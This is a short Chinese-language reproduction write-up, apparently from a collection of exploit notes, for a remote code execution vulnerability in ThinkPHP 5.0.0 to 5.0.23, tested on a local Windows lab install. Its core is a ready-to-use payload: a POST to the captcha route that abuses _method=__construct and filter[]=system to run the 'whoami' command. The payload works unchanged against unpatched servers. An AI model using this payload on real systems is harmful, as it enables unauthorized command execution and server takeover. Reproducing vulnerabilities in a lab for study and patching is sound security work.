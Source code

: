 # 0x00 软件介绍
ThinkPHP：一款在中国流行的php开发框架

# 0x01 复现环境
使用环境：win10 x64  
复现版本：ThinkPHP 5.0.22

# 0x02 环境搭建
下载thinkphp_5.0.22_with_extend.zip  
解压后访问http://127.0.0.1/thinkphp_5.0.22_with_extend/public/index.php

# 0x03 利用条件
无

# 0x04 影响版本
ThinkPHP 5.0.0 ~ 5.0.23

# 0x05 漏洞复现
攻击环境：win10 x64

攻击payload如下：
```
http://127.0.0.1/thinkphp_5.0.22_with_extend/public/index.php?s=captcha

POST:

_method=__construct&filter[]=system&method=get&get[]=whoami
```
如下图  
![image](./0.png)

# 0x06 批量脚本
无

# 0x07 踩坑记录
无

# 0x08 参考链接
https://xz.aliyun.com/t/3845
